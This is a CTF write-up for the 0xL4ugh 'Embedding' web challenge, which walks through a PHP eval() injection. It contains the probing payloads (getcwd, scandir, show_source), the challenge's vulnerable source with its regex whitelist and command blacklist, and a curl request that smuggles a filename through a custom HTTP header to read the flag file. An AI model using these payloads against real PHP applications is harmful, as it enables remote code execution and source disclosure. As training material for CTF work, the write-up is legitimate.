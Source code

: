 # Web-Embedding
URL of the challenge: [http://138.91.58.10/Embedding/](Embedding)

In the page, we got a input box
```html
<input name="username" placeholder="Enter Your UserName Here">
```

We tried to input 
> getcwd()

The result changed to
> /var/www/html/Embedding welcome

Thus, we knew that the challenge is about <font color="#f03c15"> Eval() Vulnerability </font>

Then, we put 
> print_r(scandir(getcwd()))

to get all file in this directory.

The result changed to
> Array ( \[0\] => . \[1\] => .. \[2\] => fl@g.php \[3\] => index.php ) 1 welcome

Finally, we knew that the flag is stored in fl@g.php

Before we get the source code of fl@g.php, we should know the constants of the input first

Thus, we typed
> show_source(end(scandir(getcwd())))

```php
<html> 
<head><title>Embedded Challenge </title> </head>
<body>
<form> 
<input name="username" placeholder="Enter Your UserName Here"/>
<input type="Submit"/>
</form>
</body>
</html>

<?php




if(isset($_GET["username"]))
{
    $wl = preg_match('/^[a-z0-9\(\)\_\.\']+$/i', $_GET["username"]);
    $comn=preg_match('/^(rm|cp|mv|cd|grep|find|cat|Y2F0|ZmluZA|cm0|Y3A|bXY|Z3JlcA|whoami|)+$/i', $_GET["username"]);

    if($wl === 0 || $comn===1 || strlen($_GET["username"]) > 40) {
        die("Bad Character Detected or you Break The Limit ");
   }
   $username=$_GET['username'];
    $eval=eval("echo ".$username.";");
    echo(" welcome ".$eval);
}
?> 
```

Thus, we knew that the input only can be\
<font color="#f03c15">a-z</font>, 
<font color="#f03c15">0-9</font>, 
<font color="#f03c15">(</font>, 
<font color="#f03c15">)</font>, 
<font color="#f03c15">_</font>, 
<font color="#f03c15">.</font>, 
<font color="#f03c15">'</font> and the string length must be smaller than 41

First we try that
> read_file(next(array_reverse(scandir('.'))))

However, the string length is 43, we cannot get the result.

Thus, we found that we can set the header of the request to store variable fl@g.php

Then, we use curl command in console to get the source code of fl@g.php

> curl -s -H "Flag: fl@g.php" "http://138.91.58.10/Embedding/?username=show_source(end(getallheaders()))"

```html 
<html>
<head><title>Embedded Challenge </title> </head>
<body>
<form>
<input name="username" placeholder="Enter Your UserName Here"/>
<input type="Submit"/>
</form>
</body>
</html>

<code><span style="color: #000000">
<span style="color: #0000BB">&lt;?php<br />$flag</span><span style="color: #007700">=</span><span style="color: #DD0000">"0xL4ugh{Z!90o_S@y_W3lC0m3}"</span><span style="color: #007700">;<br /></span><span style="color: #0000BB">?&gt;<br /></span>
</span>
</code>1 welcome
```

Finally, we got the flag ^.^

> 0xL4ugh{Z!90o_S@y_W3lC0m3}
